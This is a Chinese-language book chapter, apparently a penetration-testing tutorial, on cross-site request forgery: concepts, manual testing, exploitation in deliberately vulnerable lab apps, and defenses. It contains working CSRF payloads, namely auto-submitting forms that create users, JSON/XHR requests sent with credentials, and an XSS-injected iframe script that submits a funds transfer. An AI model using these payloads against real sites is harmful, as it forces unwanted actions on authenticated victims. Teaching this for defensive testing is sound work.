## 7
跨站请求伪造、识别和利用

**跨站请求伪造 (CSRF)** 常常被错误地认为是一种与 XSS 类似的漏洞。XSS 利用用户对特定站点的信任，使用户相信网站呈现的任何信息。另一方面，CSRF 利用网站对用户浏览器的信任，使网站在未经验证用户是否想要执行该特定操作的情况下执行来自已认证会话的任何请求。

在 CSRF 攻击中，攻击者使已认证用户在他们已认证的 Web 应用程序中执行不需要的操作。这是通过用户访问的外部站点实现的，该站点会触发这些操作。

如果没有足够的防御措施，CSRF 可以利用需要已认证会话中单个请求的每个 Web 应用程序功能。以下是攻击者可以通过 CSRF 攻击执行的操作示例：

- 在 Web 应用程序中更改用户详细信息，例如电子邮件地址和出生日期
- 进行欺诈性银行交易
- 在网站上进行欺诈性点赞和点踩
- 在电子商务网站上将商品添加到购物车或在用户不知情的情况下购买商品
- CSRF 攻击的前提条件

由于 CSRF 利用了已认证会话，受害者必须在目标 Web 应用程序中拥有活动的已认证会话。应用程序还应允许在会话中进行交易而无需重新认证。

CSRF 是一种盲攻击，目标 Web 应用程序的响应不会发送给攻击者，而是发送给受害者。攻击者必须了解会触发预期操作的网站参数。例如，如果你想更改受害者在网站上注册的电子邮件地址，作为攻击者，你需要识别需要操作的确切参数以使此更改生效。因此，攻击者需要对 Web 应用程序有适当的了解，这可以通过直接与其交互来完成。

此外，攻击者需要找到一种方法来诱骗用户点击预先构建的 URL，或访问攻击者控制的网站，如果目标应用程序使用 POST 方法。这可以通过社会工程攻击来实现。

## 测试 CSRF 漏洞

CSRF 漏洞的描述清楚地表明它是一种业务逻辑缺陷。经验丰富的开发人员会创建始终在执行关键任务时包含用户确认屏幕的 Web 应用程序，例如更改密码、更新个人详细信息，或在金融应用程序中做出关键决策，例如在线银行账户。测试业务逻辑缺陷不是自动化 Web 应用程序扫描器的任务，因为它们使用预定义规则。例如，大多数自动化扫描器测试以下项目以确认 URL 中存在 CSRF 漏洞：

- 检查请求和响应中是否存在常见的 antiCSRF 令牌名称
- 尝试通过提供虚假的 referrer 来确定应用程序是否正在检查 referrer 字段
- 创建变体以检查应用程序是否正确验证令牌值
- 检查查询字符串中的令牌和可编辑参数

大多数自动化应用程序扫描器使用的所有上述方法都容易产生误报和漏报。应用程序可能使用完全不同的缓解技术来抵御 CSRF 攻击，从而使这些扫描工具变得无用。


分析 Web 应用是否存在 CSRF 漏洞的最佳方式是首先全面了解该 Web 应用的功能。启动一个代理，例如 Burp 或 ZAP，并捕获流量以分析请求和响应。然后，你可以创建一个 HTML 页面，复制从代理中识别出的易受攻击的代码。测试 CSRF 漏洞的最佳方式是手动进行。

如果应用在通过已认证用户的会话执行服务器端更改时不包含任何特殊头部或表单参数，则很可能容易受到 CSRF 漏洞的影响。例如，下面的屏幕截图显示了向 Peruggia 中的图片添加评论的请求，Peruggia 是 OWASP BWA 虚拟机中包含的一个易受攻击的应用。你会注意到服务器端没有可以识别一个请求与另一个请求的特殊头部。此外，GET 和 POST 参数用于标识要执行的操作、受影响的图片以及评论内容：



有时，应用会使用验证令牌，但其实现是不安全的。下面的屏幕截图显示了来自 Mutillidae II | OWASP 2013 | A8 - Cross Site Request Forgery (CSRF) | Register User 的请求，使用安全级别 1。你可以看到请求中包含一个 csrf_token 参数用于注册新用户。然而，它只有四位长，看起来很容易预测。实际上，在这种特定情况下，令牌始终具有相同的值：7777：



CSRF 防御令牌实现存在缺陷的其他示例如下：

- **将令牌作为 Cookie 包含**：浏览器会在请求中自动发送对应访问站点的 Cookie，这将使原本安全的令牌实现变得无效。
- **使用用户或客户端信息作为令牌**：诸如 IP 地址、用户名或个人信息等信息可被用作令牌。这不必要地暴露了用户信息，并且此类信息可通过社会工程或**开源情报 (OSINT)** 在定向攻击中收集。
- **允许令牌被重复使用**：即使只是在短时间内，如果服务器允许令牌被多次使用，攻击仍可进行。
- **仅客户端检查**：如果应用仅使用客户端代码验证用户是否真正执行某些操作，攻击者仍可使用 JavaScript 绕过这些检查，无论是通过 XSS 利用，还是在攻击页面中，或简单地通过重放最终请求。

## 利用 CSRF 漏洞

通过 GET 请求利用此漏洞（参数发送在 URL 中）很容易，只需说服用户浏览到一个会执行所需操作的恶意链接即可。另一方面，要利用 POST 请求中的 CSRF 漏洞，则需要创建一个包含表单或脚本的 HTML 页面来提交请求。

### 利用 POST 请求中的 CSRF

在本节中，我们将重点关注利用 POST 请求。我们将使用 Peruggia 的用户创建功能进行此练习。第一步是，你需要知道你想要复制的请求是如何工作的；如果你以管理员身份登录 Peruggia 并在 Burp Suite 捕获流量的同时创建新用户，你可以看到请求如下所示：



请求仅包含 newuser（用户名）和 newuserpass（密码）参数。因此，一旦识别出使更改生效的请求和参数，我们需要执行以下操作：

- 1. 创建一个 HTML 页面，使用你想要的信息生成该请求及这些参数。
- 2. 说服用户浏览到你的页面并提交请求。后者可能不是必要的，因为你可以让页面自动提交表单。

需要如下的精细 HTML 才能实现我们的目标。在此示例中，易受攻击的服务器为 10.7.7.5：

```
<HTML>
<body>
<form method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1">
<input type="text" value="CSRFuser" name="newuser">
<input type="text" value="password123!" name="newuserpass">
<input type="submit" value="Submit">
</form>
</body>
</HTML>
```

生成的页面将如下所示的屏幕截图。底部部分是 Firefox 开发者工具面板。它可使用 F12 键激活：



在常规渗透测试中，这可能作为**概念验证 (PoC)** 起作用，足以证明漏洞的存在。更复杂的版本可以包含欺骗性内容和脚本代码，以便在页面加载后自动提交请求：

```
<HTML>
<BODY>
...
<!-- include attractive HTML content here -->
...
<FORM id="csrf" method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1">
<input type="text" value="CSRFuser" name="newuser">
<input type="text" value="password123!" name="newuserpass">
<input type="submit" value="Submit">
</FORM>
<SCRIPT>document.getElementById("csrf").submit();</SCRIPT>
</BODY>
</HTML>
```

要测试此 PoC 页面，请打开 Peruggia 并使用管理员用户（密码：admin）开始一个会话，并在同一浏览器的不同标签页或窗口中加载攻击页面：



接下来，单击提交按钮或如果使用脚本版本则直接加载页面，请求将被服务器处理，就好像它是由已认证用户发送的一样。使用浏览器的开发者工具，你可以检查请求是否已发送到目标服务器并正确处理：



## Web 服务上的 CSRF

今天的 Web 应用不 uncommon 使用对 Web 服务的调用来执行任务，而不是使用正常的 HTML 表单。这些请求通过 JavaScript 使用 XMLHttpRequest 对象完成，该对象允许开发人员创建 HTTP 请求并自定义方法、头部和正文等参数。

Web 服务通常以不同于标准 HTML 表单的格式接收请求（例如 parameter1=value1&parameter2=value2），例如 JSON 和 XML。以下示例代码片段以 JSON 格式发送地址更新请求：

```
var xhr = new XMLHttpRequest();
xhr.open('POST', '/UpdateAddress');
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.onreadystatechange = function () {
    if (xhr.readyState == 4 && xhr.status == 200) {
        alert(xhr.responseText);
    }
}
xhr.send(JSON.stringify(addressData));
```

此请求的正文（即 POST 数据）可能如下所示：

```
{"street_1":"First street","street_2":"apartment 2","zip":54123,"city":"Sin City"}
```

如果你尝试将此确切字符串作为 HTML 表单中的 POST 参数发送，服务器会报错且你的请求不会被处理。例如，提交以下表单将无法正确处理参数：

```
<HTML>
<BODY>
<FORM method="POST" action="http://vulnerable.server/UpdateAddress">
<INPUT type="text" name='{"street_1":"First street","street_2":"apartment 2","zip":54123,"city":"Sin City"}' value="">
<INPUT type="submit" value="Submit">
</FORM>
</BODY>
</HTML>
```

有几种方法可以使对使用 JSON 或 XML 格式的请求的 CSRF 利用成为可能。

通常，Web 服务允许以不同格式的参数，包括 HTML 表单格式；因此，你的第一个选择是将请求的 Content-Type 头部更改为 application/x-www-form-urlencoded。这只需通过 HTML 表单发送请求即可完成。不要尝试发送 JSON 字符串；相反，你可以创建一个表单，其中包含字符串中每个参数的一个输入。在我们的示例中，HTML 代码的简单版本如下：

```
<HTML>
<BODY>
<FORM method="POST" action="http://vulnerable.server/UpdateAddress">
<INPUT type="text" name="street_1" value="First street">
<INPUT type="text" name="street_2" value="apartment 2">
<INPUT type="text" name="zip" value="54123">
<INPUT type="text" name="city" value="Sin City">
<INPUT type="submit" name="submit" value="Submit form">
</FORM>
</BODY>
</HTML>
```


如果请求的 Content-Type 头不被允许，并且 Web 服务仅接受 JSON 或 XML 格式，那么你需要复制（或创建）生成请求的脚本代码，遵循相同的示例：

```
<HTML>
  <BODY>
    <SCRIPT>
      function send_request()
      {
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://vulnerable.server/UpdateAddress');
        xhr.setRequestHeader('Content-Type', 'application/json');
        xhr.withCredentials=true;
        xhr.send('{"street_1":"First street", "street_2":"apartment 2","zip":54123, "city":"Sin City"}');
      }
    </SCRIPT>
    <INPUT type="button" onclick="send_request()" value="Submit">
  </BODY>
</HTML>
```

注意使用了 xhr.withCredentials=true。这允许 JavaScript 获取浏览器中为目标域存储的 cookie 并随请求一起发送。此外，状态更改事件处理程序被省略，因为你不需要捕获响应。

这种最后的选项有几个缺点，因为在当前浏览器和服务器中，JavaScript 在跨站操作方面的行为是有限制的。例如，根据服务器的跨源资源共享（CORS）配置，应用程序在发送跨站请求前可能需要执行预检检查。这意味着浏览器会在发送任何内容之前自动发送 OPTIONS 请求以检查该服务器允许的方法。如果请求的方法不允许跨源请求，浏览器将不会发送它。另一个保护示例，这次是在浏览器中，是前面提到的同源策略，默认情况下它会保护服务器的资源不被其他网站通过脚本代码访问。

## 使用跨站脚本绕过 CSRF 保护

当应用程序容易受到跨站脚本（XSS）攻击时，攻击者可以利用该漏洞（通过脚本代码）读取包含唯一令牌的变量，并将其发送到外部站点并在新标签页中打开恶意页面，或使用相同的脚本代码发送请求，同时绕过 CORS 和同源策略，因为请求将由同一站点通过本地脚本发出。

让我们看看脚本代码可用于使应用程序对自身执行请求的场景。你将使用 WebGoat 的 CSRF 令牌绕过（跨站脚本（XSS） | CSRF 令牌绕过）练习。如说明中所述，你需要利用新新闻组中的新帖功能允许注入 HTML 和 JavaScript 代码的事实，以便执行未经授权的转账请求。

以下截图显示了转账资金页面，你可以通过在课程 URL 中添加 &transferFunds=main 参数来加载它：



如果你检查表单的源代码，可以看到它有一个名为 CSRToken 的隐藏字段，每次加载页面时都会更改。这看起来完全是随机的：



为了在此表单中执行 CSRF，你需要利用评论表单中的 XSS 漏洞，使其通过 JavaScript 在 iframe 标签内加载转账表单。这将设置要转账的值并自动提交表单。为此，使用以下代码：

```
<script language="javascript">
    function frame_loaded(iframe)
    {
        var form =iframe.contentDocument.getElementsByTagName('Form')[1];
        form.transferFunds.value="54321";
        //form.submit();
    }
</script>

<iframe id="myframe" name="myframe" onload="frame_loaded(this)" src="http://10.7.7.5/WebGoat/attack?Screen=2&menu=900&transferFunds=main">
</iframe>
```

因此，当 iframe 包含的页面完全加载后，它将调用 `frame_loaded` 函数，该函数将 `transferFunds` 字段的值设置为 54321（要转账的金额）并提交请求。注意 `form.submit();` 行被注释掉了。这仅用于演示目的，以防止自动提交。

现在浏览到易受攻击的页面：

```
http://10.7.7.5/WebGoat/attack?Screen=2&menu=900
```

为你的帖子设置一个标题，将你的代码写入或粘贴到 **Message** 字段中，然后提交它：



完成此操作后，你将在页面底部、提交按钮下方看到你的消息标题。如果像受害者一样点击它，你可以看到它加载了代码中设置好的转账金额：



要测试自动提交，只需发布一条新消息，取消对 form.submit(); 行的注释。打开消息的结果将类似于以下截图：



下一张截图来自 Burp Suite 的代理历史，显示了浏览器在前一个示例中如何发出请求。首先是加载注入代码的消息的请求，在我们的例子中是消息 66（参数 Num=66）。接下来，恶意消息加载带有资金转账页面的 iframe（参数 transferFunds=main）。最后，根据代码，当此页面完成加载脚本代码时，它会填写要转账的金额并使用有效的 CSRF 令牌提交请求：



## 防止 CSRF

防止 CSRF 的关键在于确保经过身份验证的用户就是请求操作的个人。由于浏览器和 Web 应用程序的工作方式，最好的选择是使用令牌来验证操作，或在可能的情况下使用 CAPTCHA 控制。

CSRF 攻击在易受攻击的参数通过 GET 方法传递时更容易执行。因此，首先避免使用它，并在可能的情况下使用 POST 方法。它并不能完全缓解攻击，但会使攻击者的任务更加困难。

由于攻击者会尝试破坏令牌生成或验证系统，因此以安全的方式生成它们非常重要；也就是说，以攻击者无法猜测的方式。你还必须使它们对每个用户和每个操作都是唯一的，因为重复使用会使其失去作用。这些令牌通常包含在每个请求的头部字段中或 HTML 表单的隐藏输入中。避免将它们包含在 cookie 中，因为浏览器会根据每个域自动随每个请求一起发送它们。

CAPTCHA 控制和重新身份验证在某些时候对用户来说是侵入性和烦人的，但如果操作的严重性值得，他们可能会愿意接受它们以换取它们提供的额外安全级别。

此外，CORS 策略应在服务器上配置，因为它们可以防止通过 Web 浏览器使用脚本代码进行的某些攻击。CORS 策略将防止在不同标签页或浏览器窗口中运行的 JavaScript 访问服务器上的数据/资源，如果该窗口中加载的 URL 不属于同一源（例如主机、端口或协议）。

有关防止 CSRF 的更多信息，请参阅 https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet。
